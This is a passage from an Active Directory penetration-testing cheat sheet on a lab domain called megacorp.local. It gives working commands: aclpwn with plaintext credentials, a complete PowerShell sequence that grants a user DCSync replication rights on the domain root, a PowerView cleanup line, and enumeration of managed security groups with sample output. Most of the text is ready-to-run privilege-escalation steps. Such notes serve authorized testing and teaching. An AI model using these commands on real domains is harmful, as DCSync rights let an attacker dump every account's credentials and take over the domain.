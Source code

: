 ```
$ aclpwn -f snovvcrash -ft user -t megacorp.local -tt domain -d megacorp.local -du neo4j -dp neo4j --server 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -sp 'Passw0rd!'
```

Add DCSync rights with ActiveDirectory module:

* [https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)

1. Get ACL for the root domain object.
2. Get SID for the account to be given DCSync rights.
3. Create a new ACL and within it set "Replicating Directory Changes" (GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`) and "Replicating Directory Changes All" (GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`) rights for the SID from (2).
4. Apply changes.

```
PS > Import-Module ActiveDirectory
PS > $acl = Get-Acl "AD:DC=megacorp,DC=local"
PS > $user = Get-ADUser snovvcrash
PS > $sid = New-Object System.Security.Principal.SecurityIdentifier $user.SID
PS > $objectGuid = New-Object guid 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
PS > $identity = [System.Security.Principal.IdentityReference] $sid
PS > $adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
PS > $type = [System.Security.AccessControl.AccessControlType] "Allow"
PS > $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > $objectGuid = New-Object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > Set-Acl -AclObject $acl "AD:DC=megacorp,DC=local"
```

Cleanup:

```
PV3 > Remove-DomainObjectAcl -TargetIdentity megacorp.local -PrincipalIdentity snovvcrash -Rights DCSync
```




## Managed Security Groups

* [https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/](https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/)

Returns all security groups in the current (or target) domain that have a manager set:

```
PV3 > Get-DomainManagedSecurityGroup

GroupName                : Security Operations
GroupDistinguishedName   : CN=Security Operations,CN=Users,DC=MEGACORP,DC=LOCAL
ManagerName              : john.doe
ManagerDistinguishedName : CN=John Doe,OU=Security,OU=IT,OU=Employees,DC=MEGACORP,DC=LOCAL
ManagerType              : User
ManagerCanWrite          : UNKNOWN
```
